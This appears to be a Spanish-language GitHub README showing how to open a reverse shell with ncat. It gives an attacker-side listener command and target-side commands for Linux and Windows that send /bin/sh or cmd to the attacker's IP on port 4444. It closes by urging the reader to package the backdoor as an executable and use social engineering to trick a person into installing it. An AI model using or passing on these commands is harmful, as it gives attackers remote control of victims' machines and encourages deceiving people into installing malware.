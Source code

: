 # REVERSE_SHELL-CON-NCAT

# Aqui te muestro la manera mas sencilla de infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result> ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " ( es por algo que lo llaman de esta manera)




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas de nuestro backdoor. 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows.
* Y usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.

# Ire actualizando el repo.
# TmCyber
